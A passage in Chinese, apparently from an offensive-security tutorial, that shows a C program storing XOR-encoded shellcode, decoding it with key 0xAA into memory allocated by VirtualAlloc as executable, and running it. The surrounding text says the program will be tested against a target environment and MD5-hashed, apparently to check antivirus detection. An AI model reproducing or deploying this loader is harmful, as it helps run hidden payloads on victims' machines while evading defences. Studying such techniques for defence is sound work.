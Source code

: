 我们可以看到，在执行时，编码的外壳代码被解码为其原始形式并被执行。让我们编写一个简单的 C 程序来演示这一点，如下所示：

```
#include"stdafx.h"
#include <Windows.h>
#include <iostream>
#include <iomanip>
#include <conio.h>
unsigned char encoded[] =
"\x14\x3f\x18\x3f\x54\x77\x6e\x73\xde\x8e\x5e\xf0\x9b\x63\x1b"
"\xfc\x29\x68\xae\x9b\xd8\xa5\xa9\xd8\x30\xfa\xca\xa8\xe6\xbc"
"\x21\x51\x26\xdd\xaf\xb4\x17\x1d\xdb\xc0\x47\xad\x5b\x94\xab"
"\x49\xfd\x01\x38\x2b\xd5\x76\xb9\x85\xc\x79\x0e\xb6\x30\xd8"
"\x8c\xf5\x65\xfe\xbd\x3a\xa8\x3e\xfa\x67\x45\x6e\xa3\x33\xe8"
"\x53\x94\x7d\xf4\xd8\xa6\x53\x4c\xcd\x6e\x52\x6d\x93\xf5\x9"
"\x6d\x12\x26\x75\xeb\x9\x7b\x70\xb2\xf2\x8b\x3a\x30\x22\xd2"
"\xf3\x9a\x5f\x1f\x2\xe2\x9b\xdb\xf9\x95\xe1\x28\x44\x92\x22"
"\x53\x9e\x66\xa1\xf3\x14\xdc\x5a\xf2\xb9\x4a\xd9\xfc\x72\xcc"
"\x71\xd0\x75\x01\xfd\x2c\xfe\xe0\x12\xa5\x84\xc3\xb6\xfe\x5e"
"\xba\xaf\x9a\xf1\x86\xff\x31\xae\x22\xb7\x9b\xfa\xb\xd5\xf7"
```

```
"\x3f\x22\xd5\x37\x1b\x31\xa6\x5\xb4\x9a\x31\x29\x7d\x34\xf6"
"\x38\x5a\x8a\x18\xb6\x3a\x74\x99\xf6\x12\x8e\xcd\xa6\x78\x27"
"\xa2\x6d\x88\x9b\x77\xd7\x83\xf\xb4\x83\x8d\xfa\x5d\x81\x92"
"\x21\xf1\x8\x74\x51\x99\x4e\xe4\x16\x49\xee\x95\xfe\x44\xe1"
"\xca\xee\xbb\x2c\xa3\x45\x54\xd4\xcb\x32\xcd\x71\x53\x93\xcd"
"\x5c\x2d\xd0\x49\x58\xd2\x9e\xae\xdd\xc1\x8b\xd9\xdd\xd9\x18"
"\xbc\xdd\xb3\x1c\x1a\x8a\x1f\x1e\x4f\xac\xb0\xec\x6a\xbf\xf7"
"\x12\x3f\x85\xbf\x25\xa9\xa5\xeb\x5a\x69\x25\x3b\xc\x23\x25"
"\x53\xb4\x40\x76\xb6\xcb\x8d\xdb\x27\x5e\x62\x89\xcb\xf4\xb"
"\x63\xf6\x2\xc4\x98\x21\x00\xc3\x66\xe3\x2f\x7b\xe\x1b\x3f"
"\x4b\x9e\x72\xbf\x18\xf6\xbd\x93\x97\x6\x72\x3a\xbc\xe\xf9"
"\xdf\x7e\xff\xc9\xf6\x12\x61\xce\xf9\xcb\x56\xb5\xb6\x3c\x57"
"\x75\x9e\x59\x54\x75\x92\xaf\x69\xa3\xab\xd9\xa8\x20\x9c\x26"
"\x9b\x5\xb5\xad\x93\x49\xca\xa8\xaa";
int main()
{
 void *exec = VirtualAlloc(0, sizeof encoded, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

 for (unsigned int i = 0; i < sizeof encoded; ++i)
 {
  unsigned char val = (unsigned int)encoded[i] ^ 0xAA;
  encoded[i] = val;
 }
 memcpy(exec, encoded, sizeof encoded);
 ((void(*)())exec)();
 return 0;
}
```

同样，一个非常简单的程序；我们使用`VirtualAlloc`函数在调用程序的虚拟地址空间中保留空间。我们还使用了`memcpy`将解码的字节复制到`VirtualAlloc`指针保留的空间中。接下来，我们执行指针上保存的字节。那么，让我们测试一下我们的程序，看看它在目标环境中是如何工作的。我们将遵循同样的步骤；让我们按如下方式查找程序的 MD5 哈希：

